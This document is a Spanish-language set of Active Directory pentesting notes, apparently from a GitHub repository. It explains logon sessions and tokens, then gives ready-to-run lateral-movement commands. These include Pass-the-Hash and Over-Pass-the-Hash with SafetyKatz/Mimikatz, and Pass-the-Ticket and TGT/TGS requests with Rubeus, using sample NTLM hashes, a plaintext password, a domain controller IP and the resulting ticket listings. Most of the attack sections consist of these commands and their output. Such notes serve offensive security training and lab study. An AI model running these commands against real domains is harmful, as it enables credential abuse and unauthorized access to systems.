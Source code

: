 ## Tabla de contenido

- [Enumeración](#Enumeración).
- *[LogonSesssion](#LogonSesssion)*.
- [Token](#Token).
- [Movimiento_lateral](#Movimiento_lateral).
  - [runas](#runas).
  - *[Pass-the-Hash](#Pass-the-Hash)*.
  - *[Over-Pass-the-Hash](#Over-Pass-the-Hash)*.
  - *[Pass-the-ticket](#Pass-the-Ticket)*.
  - [ASK-TGT/TGSt](#ASK-TGT/TGS).

# Enumeración
### Listar usuarios locales:
```powershell
Get-LocalUser
Get-WmiObject -Class win32_userprofile | select localpath, SID
```

### Listar usuarios del dominio:
```powershell
Get-ADUser -Filter *
Get-ADUser -Filter * -Server 192.168.1.155
```

### Listar grupos locales
```powershell
Get-LocalGroup
```

### Listar grupos del dominio
```powershell
Get-ADGroup -Filter *
Get-ADGroup -Filter * -Server 192.168.1.155
```
# *LogonSesssion*

Se crea cuando hay una autenticación sea de manera remota o local. Las credenciales siempre se asignan a una *logon session*.

![Ex00](https://github.com/0x04e1/Notas-Directorio-Activo/blob/main/Pic/1.png)

Hay dos tipos:

**(1) Interactivas**: las credenciales se almacenan en memoria (lsass.exe) para *Single Sign-On*.

**(2) No interactivas**: no se almacenan en memoria, solo se envían en la red. Por defecto **no se guardan en memoria**.
Ejmplo:

![Ex01](https://github.com/0x04e1/Notas-Directorio-Activo/blob/main/Pic/2.png)

Nota: aunque el usuario pepe puede consumir el recurso con permisos de lectura y escritura, si estas (credenciales) no se envían de manera explícita para consumir un recurso a través de SSO, no se podrá consumir el recurso.

# *Token*

Estructura de datos con información de seguridad de un usuario, gupos, identificar, etc.

![Ex02](https://github.com/0x04e1/Notas-Directorio-Activo/blob/main/Pic/3.png)

Con ello el sistema operativo, aplica controles de acceso a través de privilegios. Todos los objetos del sistema operativo Windows cuentan con descriptores de seguridad, allí está la lista **DACL** y en ella se especifica quién tiene acceso a los objetos.

![Ex03](https://github.com/0x04e1/Notas-Directorio-Activo/blob/main/Pic/4.png)

# Movimiento_lateral

## *runas*

Con credenciales válidas, es posible crear un proceso actuando como ese usuario.
- Aplica de manera local:
```powershell
runas.exe /user:ffff /savecred cmd.exe
```
- Aplica de manera remota:
```powershell
runas /noprofile /netonly /user:domain\Administrator powershell.exe
```

## *Pass-the-Hash*
1. Se crea una nueva sesión.
2. Se duplica el *token* original.
3. Se referencia la nueva sesión.
4. Se pueaplica al hilo principal o crear nuevo proceso y aplicarlo.

```powershell
C:\AD\Tools\SafetyKatz.exe "sekurlsa::pth /user:juan /domain:cs.org /ntlm:709d4242de780b1f34c19c78ad1630fd /run:powershell.exe" "exit"
```

Al contar con los paquetes de autenticación *msv1_0* y *kerberos*, es posible acceder el consumo de los servicios a través de NTLM y Kerberos (si el servidor lo soporta).
```powershell
msv1_0   - data copy @ 0000013DED28C5E0 : OK !
kerberos - data copy @ 0000013DECC9C6C8
```
## *Over-Pass-the-Hash*
1. Se crea una nueva sesión.
2. Se actualizan *hash* y/o llaves de la sesión.
3. Se copia el *token* original.
4. Similar a **runas /netonly** pero sin credenciales.

La técnica de *Over Pass the Hash* implica la generación de un nuevo ticket de Kerberos y la importación de este ticket en la memoria del sistema, lo cual generalmente requiere privilegios de administrador.
```powershell
C:\AD\Tools\SafetyKatz.exe "sekurlsa::pth /user:juan /domain:cs.org /ntlm:709d4242de780b1f34c19c78ad1630fd /ptt"
```

En este caso, se agrega el parámetro **/ptt** al comando de *Pass the Hash* anterior. Esto indica a Mimikatz que importe el ticket de Kerberos generado en la memoria del sistema para establecer una sesión de autenticación en lugar de solo realizar un *Pass the Hash*. Esto permite realizar la técnica de *Over Pass the Hash* y obtener acceso a otros recursos o sistemas dentro de la red.

## *Pass-the-Ticket*

El parámetro "asktgt" en Rubeus, se utiliza para solicitar un Ticket Granting Ticket (TGT) utilizando las credenciales de un usuario especificado. Y es psoible realizarlo de manera remota:
```powershell
C:\AD\Tools\Rubeus.exe asktgt /user:cs.org\juan /password:Colombia.2023. /dc:192.168.1.155
# Para importar el *ticket*:
C:\AD\Tools\Rubeus.exe ptt /ticket:doIFDjCCBQqgAw...
```

## ASK-TGT/TGS

Se genera tráfico legítimo Kerberos para solicitar: AS-REQ TGS-REQ. ¡No necesita ser administrador!
Para solicitar el TGT concociendo el *Hash* del usuario: 
```powershell
C:\AD\Tools\Rubeus.exe asktgt /user:juan /domain:cs.org /rc4:709d4242de780b1f34c19c78ad1630fd /dc:192.168.1.155 /ptt
```
Al listar el *ticket*, solo se tendrá el recién importado:
```powershell
#0>     Client: juan @ CS.ORG
        Server: krbtgt/cs.org @ CS.ORG
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
        Start Time: 6/26/2024 12:35:32 (local)
        End Time:   6/26/2024 22:35:32 (local)
        Renew Time: 7/3/2024 12:35:32 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:
```
Al consumir el servicio CIF, se creará el TGS, Windows hará el trabajo.

```powershell
#2>     Client: juan @ CS.ORG
        Server: cifs/server-01 @ CS.ORG
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a50000 -> forwardable renewable pre_authent ok_as_delegate name_canonicalize
        Start Time: 6/26/2024 12:49:01 (local)
        End Time:   6/26/2024 22:48:51 (local)
        Renew Time: 7/3/2024 12:48:51 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called: SERVER-01.cs.org
```

Creando el TGS manualmente para consumir el sercio CIF:

```powershell
C:\AD\Tools\Rubeus.exe asktgs /ticket:doIFDj... /service:cifs/server-01.cs.org /ptt
# Al listar el *ticket* creado:
#0>     Client: juan @ CS.ORG
        Server: cifs/server-01.cs.org @ CS.ORG
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a50000 -> forwardable renewable pre_authent ok_as_delegate name_canonicalize
        Start Time: 6/26/2023 13:18:53 (local)
        End Time:   6/26/2023 20:08:43 (local)
        Renew Time: 7/3/2023 10:08:43 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called:
```

